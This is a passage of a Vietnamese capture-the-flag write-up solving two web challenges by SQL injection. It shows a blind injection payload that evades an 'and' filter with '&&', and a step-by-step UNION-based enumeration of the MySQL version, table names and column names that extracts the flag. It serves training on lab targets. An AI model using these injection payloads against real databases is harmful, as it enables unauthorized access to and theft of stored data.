 ```php
    if ($result-> num_rows === 1) {
    $hero__info = $result->fetch_array();
    $enemy__power = $enemy__power->fetch_array();
    if ($hero__info['mission'] == $mission || $hero__info['power'] > $enemy__power['power']) {
        die($flag);
    } else {
        die("Mission failed");
    }
} else {
    die("Mission failed!!!");
}
```

Ta thấy được là `num_rows === 1` nếu không hợp lệ thì sẽ trả về `"Mission failed!!!"` và điều kiện lấy flag là `$hero__info['mission'] == $mission` hoặc`$hero__info['power'] > $enemy__power['power']`,

- Tiến hành: thử nhập 1 số payload thì ta nhận ra là web sẽ filter `and` nên ta sẽ dùng `&&` thay thế. Payload: `saitama'&&mission like binary '{char}%'-- -` phần này sẽ phải bruteforce để lấy được thông tin mission: 1b134ba1348f52010869589149240599. Tiếp đó gửi lên server, ta thu được flag:`Wanna One{U_1s_r3al_h4ck3rxD:))}`

### Inj3ction Time

Bài này thì không có source, chỉ có phần interface để tương tác, ta có thể thấy có ID và data ở dưới nên bài này sẽ dùng SQL injection
![](https://i.imgur.com/LAEjEX2.png)

- Phân tích:
  - Chỉ có 1 phần phần nhập và nút submit
  - Thử 1 số payload phổ biết của SQL injection, tuy nhiên kết quả không khả quan mấy, và phát hiện là dấu ` và -- không cần sử dụng
  ![](https://i.imgur.com/nLzjCfb.png)
- Hướng giải quyết
  - Tìm trên google với từ khóa `blind sql injection attack` và ta thấy ngay [kết quả](https://portswigger.net/web-security/sql-injection/union-attacks) đầu tiên có đề cập tới syntax Union trong SQL, tìm tiếp với `union in sql injection` ta thấy được cách hoạt động ở [kết quả](https://portswigger.net/web-security/sql-injection/union-attacks) đầu, mục đích là kiểm tra bảng của SQL
  - Kiểm tra bằng payload `1 UNION SELECT NULL,NULL,NULL,NULL` và nó hoạt động tốt
  ![](https://i.imgur.com/aCJfzWL.png)
Mò tiếp các payload phổ biến của Union tại [đây](https://github.com/payloadbox/sql-injection-payload-list)
Thay `NULL` thành `@@VERSION` ta được payload: `1 UNION SELECT @@VERSION,@@VERSION,@@VERSION,@@VERSION`
![](https://i.imgur.com/et5amn5.png)
Ta thấy được server đang dùng MySQL phiên bản `5.5.58-0ubuntu0.14.04.1`. Tiếp ta sẽ kiểm tra bảng bằng [`INFORMATION_SCHEMA.TABLES`](https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/) bằng `1 UNION SELECT TABLE_NAME,NULL,NULL,NULL FROM INFORMATION_SCHEMA.TABLES`
![](https://i.imgur.com/sU0HOv9.png)
ta tìm thấy 1 bảng tên `w0w_y0u_f0und_m3`
`1 UNION SELECT COLUMN_NAME,NULL,NULL,NULL FROM INFORMATION_SCHEMA.COLUMNS`
![](https://i.imgur.com/mQNFs7F.png)
ta tìm thấy cột tên `f0und_m3`
Vậy payload hoàn chỉnh `1 UNION SELECT  f0und_m3, NULL, NULL, NULL FROM w0w_y0u_f0und_m3`
![](https://i.imgur.com/trcuRpd.png)
Flag: `abctf{uni0n_1s_4_gr34t_c0mm4nd}`
